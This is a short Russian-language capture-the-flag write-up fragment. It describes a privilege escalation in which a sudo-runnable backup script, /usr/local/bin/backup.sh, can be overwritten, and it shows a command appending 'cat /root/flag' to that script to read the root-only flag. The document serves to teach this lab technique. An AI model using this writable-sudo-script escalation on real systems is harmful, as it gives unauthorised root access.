 находим  скрипт Backup.sh который можем запустить от пользователя sudo и можем перезаписать скрипт 
```
#!/bin/bash
tar -czf /backup/backup.tar.gz /home/user/
```
добавим в скрипт echo "cat /root/flag" >> /usr/local/bin/backup.sh  и забираем флаг